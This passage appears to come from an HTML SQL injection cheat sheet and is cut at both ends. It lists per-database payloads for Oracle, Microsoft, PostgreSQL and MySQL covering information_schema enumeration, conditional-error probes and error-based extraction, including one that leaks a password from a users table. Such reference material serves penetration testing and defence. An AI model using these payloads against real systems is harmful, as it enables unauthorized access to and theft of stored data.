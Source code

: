                     SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'<br>
                </code></td>
            </tr>
        </table><h2 id="conditional-errors">Conditional errors</h2><p>
            You can test a single boolean condition and trigger a database error if the condition is true.
        </p><table class="is-nonresponsive-table">
            <tr>
                <th>
                    Oracle
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual
                </code></td>
            </tr>
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td><code>
                    SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
                </code></td>
            </tr>
        </table><h2 id="extracting-data-via-visible-error-messages">Extracting data via visible error messages</h2><p>
            You can potentially elicit error messages that leak sensitive data returned by your malicious query.
        </p><table class="is-nonresponsive-table">
            <tr>
                <th>
                    Microsoft
                </th>
                <td><code>
                    SELECT 'foo' WHERE 1 = (SELECT 'secret')<br>
                    <br>
                    &gt; Conversion failed when converting the varchar value 'secret' to data type int.
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    SELECT CAST((SELECT password FROM users LIMIT 1) AS int)<br>
                    <br>
                    &gt; invalid input syntax for integer: "secret"
                </code></td>
            </tr>
            <tr>